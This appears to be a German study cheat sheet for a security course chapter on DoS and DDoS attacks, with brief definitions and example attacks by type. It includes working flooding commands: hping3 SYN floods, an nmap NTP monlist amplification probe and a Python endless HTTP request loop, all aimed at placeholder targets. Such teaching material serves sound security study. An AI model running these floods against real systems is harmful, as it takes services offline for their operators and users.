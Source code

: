 
# 🛡️ Cheatsheet: Chapter 10 – DoS / DDoS Attacks

## 🔍 Grundlagen

| Begriff | Beschreibung |
|--------|--------------|
| **DoS** | Denial-of-Service – Angriff auf Verfügbarkeit eines Systems oder Dienstes durch Ressourcenüberlastung. Beispiel: Ein Server erhält zu viele Anfragen und stürzt ab. |
| **DDoS** | Distributed DoS – dieselbe Wirkung durch verteilte Systeme (z. B. Botnet). |
| **Botnet** | Netzwerk kompromittierter Geräte (Zombies), zentral gesteuert über C&C (Command & Control). |
| **Ziel** | Verfügbarkeit blockieren, Netzwerk oder Dienste unbrauchbar machen. |

```bash
# Beispiel: Einfache SYN Flood mit hping3
hping3 -S -p 80 --flood <Ziel-IP>
```

---

## 🧠 Typen von DoS/DDoS-Angriffen

### 📶 Volumetric Attacks (bps)

Ziel: Bandbreite überfluten. Nutzt meist UDP-basierte Protokolle wie DNS oder NTP.

```bash
# NTP Amplification via monlist (Nmap)
nmap -sU -pU:123 -Pn -n --script=ntp-monlist <target>
```

### ⚙️ Protocol Attacks (pps / cps)

Ziel: Ressourcen wie Verbindungsstatus-Tabellen erschöpfen.

```bash
# Beispiel: SYN-Flood mit hping3
hping3 -S -p 443 --flood <Ziel-IP>
```

### 🧩 Application Layer Attacks (rps)

Ziel: Anwendungen oder Dienste durch gezielte HTTP-Requests lahmlegen.

```python
# Beispiel: HTTP Flood mit Python
import requests
while True:
    requests.get("http://zielseite.com")
```

---
